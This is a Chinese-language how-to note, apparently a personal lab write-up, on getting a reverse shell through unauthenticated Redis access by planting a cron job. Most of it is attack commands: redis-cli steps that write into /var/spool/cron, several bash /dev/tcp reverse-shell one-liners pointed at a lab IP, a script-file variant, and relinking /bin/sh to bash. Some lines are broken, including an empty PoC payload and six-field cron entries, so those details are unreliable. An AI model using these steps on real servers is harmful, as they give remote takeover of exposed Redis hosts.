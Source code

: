 # redis未授权反弹shell失败解决

受害机器：kali；攻击主机：mac；

注意，这里写的是**利用定时任务反弹shell**会出现的问题。

最开始在网上找的poc

```shell
root@kali:~# redis-cli -h 192.168.63.130
192.168.63.130:6379> set x "\n* * * * * 
\n"
OK
192.168.63.130:6379> config set dir /var/spool/cron/
OK
192.168.63.130:6379> config set dbfilename root
OK
192.168.63.130:6379> save
OK
```

很随意的一个poc，会遇到各种各样的问题。

执行完之后，使用`crontab -l`发现并没有定时任务执行，这是因为reids写入的定时文件格式有误，据说ubuntu、Debian都有这个问题，centos可以成功复现。不过今天的重点并不在此。

重点是**用crontab反弹shell**。

直接在受害机上使用`crontab -e`写入定时任务，根据最开始网上的那篇博客，应该这么写

```sh
# 写入定时任务
* * * * * bash -i >& /dev/tcp/192.168.63.128/7999 0>&1\n
# 查看定时任务是否执行
crontab -l
```

然后发现执行了，但是shell没有反弹到mac上；

怎么办？

```sh
# 首先查看系统日志
$ tail -f /var/log/syslog
# 结果如下；表示crontab执行出错
CRON[55318]: (CRON) info (No MTA installed, discarding output)

# 写入如下任务---查看crontab的错误日志
* * * * * '/bin/bash -i >& /dev/tcp/192.168.63.128/7999 0>&1'>/tmp/error.txt 2>&1
# 结果如下
$ cat /tmp/error.txt
 bash: cannot set terminal process group (6868): Inappropriate ioctl for device
 bash: no job control in this shell
 bash: >& /dev/tcp/192.168.63.128/7999 0>&1: No such file or directory
```

### 执行bash命令

/bin/bash没有被找到；crontab使用的shell环境是/bin/sh；

Debian下，`sh->dash`，也就是说，要用dash去把反弹bash，这是出错的根本原因。

```shell
# bash -i >& /dev/tcp/192.168.63.130/7777 0>&1           
dash: 2: Syntax error: Bad fd number
# ^C
# /bin/bash -i >& /dev/tcp/192.168.63.130/7777 0>&1
dash: 3: Syntax error: Bad fd number
# /bin/bash -c >& /dev/tcp/192.168.63.130
```

> 但是dash为什么不能反弹bash？

所以，其实可以使用`bash -c`执行命令，而这个命令是反弹交互式bash shell；

```shell
bash -c "bash -i >& /dev/tcp/192.168.63.130/7777 0>&1"
```

也就是，定时任务反弹shell可以写成这样

```shell
* * * * * *  bash -c "bash -i  >&/dev/tcp/192.168.63.130/7777 0>&1"
```

### 使用脚本文件

```shell
# 编辑shell脚本
$ vim /temp/test.sh
# 文件内容如下
# !/bin/bash
/bin/bash -i >& /dev/tcp/192.168.63.130/7777 0>&1

# 加上执行权限
$ chmod +x /tmp/test.sh

# 修改计划任务
* * * * * * /tmp/test.sh
```

### 修改sh指向

让sh指向bash

```shell
ln -s -f bash /bin/sh
```


### 参考博客
- [很有用的博客](https://m3lon.github.io/2019/03/18/%E8%A7%A3%E5%86%B3ubuntu-crontab%E5%8F%8D%E5%BC%B9shell%E5%A4%B1%E8%B4%A5%E7%9A%84%E9%97%AE%E9%A2%98/)
- [某云玩家博客](https://p0sec.net/index.php/archives/69/)
